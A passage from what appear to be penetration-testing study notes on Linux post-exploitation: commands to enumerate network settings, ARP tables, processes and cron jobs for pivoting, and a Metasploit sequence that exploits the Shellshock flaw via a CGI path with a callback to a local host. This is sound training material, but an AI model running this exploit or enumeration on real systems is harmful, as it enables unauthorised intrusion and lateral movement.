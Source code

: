 ```bash
ip a s  # Often shows other reachable networks for potential pivoting

# Basic system network info
cat /etc/networks # Network names
cat /etc/hostname # Hostname of the machine
cat /etc/hosts # Local hostname-to-IP mapping
cat /etc/resolv.conf # DNS server configuration

# List ARP table to see devices the target has communicated with (may not be installed)
arp -a
# Use Meterpreter's ARP command to list the ARP cache from the target
arp # Shows IP-to-MAC mappings of known network hosts
```

### 2.4. Enumerating Processes & Cron Jobs - Linux

**What are we looking for?**
- Running services
- Cron Jobs

**Objective:** Enumerate the target machine to gather processes & cron jobs information.

```shell
# We can begin by enumerating the list of running processes on the target system
ps

# We can also find the PID of a specific service
pgrep vsftpd

# We can enumerate the list of cron jobs on the Kali Linux system
ls -al /etc/cron*

crontab -l
ls -al /etc/cron*
cat /etc/cron*
```

### 2.5. Automating Linux Local Enumeration

**Objective:** To automate local enumeration on Linux by leveraging various post-exploitation Metasploit modules and local enumeration scripts.

**Gain access to the system** 

```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>
service  postgresql start && msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <target_IP>
set TARGETURI /gettime.cgi
set LHOST <local_IP>
exploit
```
